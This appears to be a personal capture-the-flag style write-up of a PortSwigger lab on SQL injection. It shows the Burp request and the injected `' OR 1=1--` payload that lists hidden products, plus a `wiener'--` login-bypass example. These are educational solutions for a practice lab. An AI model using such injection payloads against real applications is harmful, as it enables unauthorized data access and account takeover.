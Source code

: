 ```yaml
---
description: WHERE clause allowing retrieval of hidden data
---
```


# 1e1 - SQL injection vulnerability allowing retrieval of hidden data \[PortSwigger Lab]

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

### Solution:

<figure><img src="../../../.gitbook/assets/Pasted image 20240719185908.png" alt=""><figcaption><p>web interface</p></figcaption></figure>

So taking this application into BurpSuite and selecting a category "Pets" gives me the following request

`GET /filter?category=Pets HTTP/2`

So what should I inject here to cause the following SQL query to malfunction?

`SELECT * FROM products WHERE category = 'Pets' AND released = 1`

So basically, modifying the original `GET /filter?category=Pets HTTP/2` to `GET /filter?category=Pets'+OR+1=1--' HTTP/2` causes to perform the following SQL query

`SELECT * FROM products WHERE category = 'Pets' OR 1=1-- AND released = 1`

meaning that everything will be displayed since `1=1` is TRUE and after that everything is ignored.

***

Imagine another scenario where an application lets user submit their credentials `wiener:peter`. SQL query might look like this

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

if the query returns the details the login was seccessful. otherwise, it rejected.

an attacker might be able to login as any user without the need for a password. this can be done using `--` sequence in `WHERE` clause where password is checked. for example submitting the username `wiener'--` would produce the following SQL query

`SELECT * FROM users WHERE username = 'wiener'--' AND password = ''`

successfully logging in a user.
